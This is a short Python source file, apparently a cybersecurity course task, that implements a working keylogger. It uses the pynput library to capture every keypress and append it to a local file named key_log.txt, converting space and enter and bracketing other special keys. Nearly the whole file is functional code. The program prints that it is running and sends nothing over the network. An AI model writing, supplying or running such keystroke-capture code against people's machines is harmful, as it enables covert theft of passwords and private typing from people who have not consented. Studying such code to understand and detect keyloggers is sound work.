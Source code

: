 # fahadafzaal-CyberSec-Task-key_logger.py
from pynput.keyboard import Listener

# Define the file where we'll save the logs
log_file = "key_log.txt"

# Function to log the keys to a file
def log_keystroke(key):
    # Convert key to string and remove special characters like 'Key.space'
    key_data = str(key).replace("'", "")
    
    # Handle special keys such as space, enter, etc.
    if key_data == 'Key.space':
        key_data = ' '
    elif key_data == 'Key.enter':
        key_data = '\n'
    elif key_data.startswith('Key'):
        key_data = f'[{key_data}]'

    # Append the key to the log file
    with open(log_file, 'a') as f:
        f.write(key_data)

# Function to start the keylogger listener
def start_keylogger():
    with Listener(on_press=log_keystroke) as listener:
        listener.join()

if __name__ == "__main__":
    print("Keylogger is running... Press Ctrl + C to stop.")
    start_keylogger()

